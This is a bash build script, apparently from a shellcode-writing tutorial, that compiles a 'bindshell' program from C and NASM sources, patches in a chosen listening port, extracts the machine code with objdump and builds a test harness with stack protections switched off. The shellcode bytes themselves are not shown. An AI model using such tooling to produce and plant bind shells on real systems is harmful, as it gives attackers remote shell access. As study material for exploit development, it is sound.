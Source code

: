 # Usage: ./compile.sh [port] (optional)

ROOT=$(dirname $(readlink -f $0))
NAME="bindshell"

if [ ! -z $1 ]; then
    if [ $1 -lt 0  -o  $1 -gt 65535 ]; then
        echo "Invalid port specified: ${1}"
        exit 1
    fi

    PORT_INT=${1}
    PORT_HEX=$(printf "%04x0x" ${PORT_INT} | tac -rs .. | tr -d '\n')

    echo " [+] Updating port: ${PORT_INT} (${PORT_HEX})"
    sed -ri "s/^#define PORT [0-9]+\s*$/#define PORT ${PORT_INT}/" ${ROOT}/${NAME}.c
    sed -ri "s/0x[0-F]+\s+;\s*sin_port\s*$/${PORT_HEX}  ; sin_port/" ${ROOT}/${NAME}.nasm

    echo ${PORT_HEX:2:4} | egrep -q "(^00)|(00$)"
    [ $? -eq 0 ] && echo " [-] WARNING: This port introduces null chars into shellcode"

fi

echo -n " [+] Compiling ${NAME}.c..."
/usr/bin/gcc -ggdb3 -o ${ROOT}/${NAME}_c ${ROOT}/${NAME}.c > /dev/null 2>&1
[ $? -eq 0 ] && echo "Done" || echo "ERROR"

echo -n " [+] Compiling ${NAME}.nasm..."
/usr/bin/nasm -f elf32 ${ROOT}/${NAME}.nasm > /dev/null 2>&1
[ $? -eq 0 ] && echo "Done" || echo "ERROR"

echo -n " [+] Linking ${NAME}.o..."
/usr/bin/ld ${ROOT}/${NAME}.o -o ${ROOT}/${NAME} > /dev/null 2>&1
[ $? -eq 0 ] && echo "Done" || echo "ERROR"

echo -n " [+] Generating shellcode from ${NAME}..."
SHELLCODE=$(/usr/bin/objdump -D ${ROOT}/${NAME} \
            | egrep ":\s+([0-f]{2}\s)+" -o \
            | sed -r "s/^:\s+//g" \
            | sed -r "s/([0-f]{2})/\\\x\1/g" | tr -d "\n " \
            | fold -w 48 \
            | sed -r "s/(^.*$)/    \"\1\"/g"; \
            echo ";")

[ $? -eq 0 ] && echo "Done" || echo "ERROR"

echo -n " [+] Building shellcode.c..."
cat > ${ROOT}/shellcode.c << EOF
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] =
${SHELLCODE}

int main (int argc, char **argv) {
    printf("Shellcode Length:  %d\n", strlen(shellcode));
    int (*ret)() = (int(*)())shellcode;
    ret();
}
EOF
[ $? -eq 0 ] && echo "Done" || echo "ERROR"

echo -n " [+] Compiling shellcode.c..."
/usr/bin/gcc -ggdb3 -z execstack -fno-stack-protector \
        -o ${ROOT}/shellcode ${ROOT}/shellcode.c > /dev/null 2>&1

[^1]: https://www.cs.cmu.edu/~srini/15-441/S10/lectures/r01-sockets.pdf
[^2]: https://www.gta.ufrj.br/ensino/eel878/sockets/sockaddr_inman.html
[^3]: http://shell-storm.org/shellcode/files/shellcode-837.php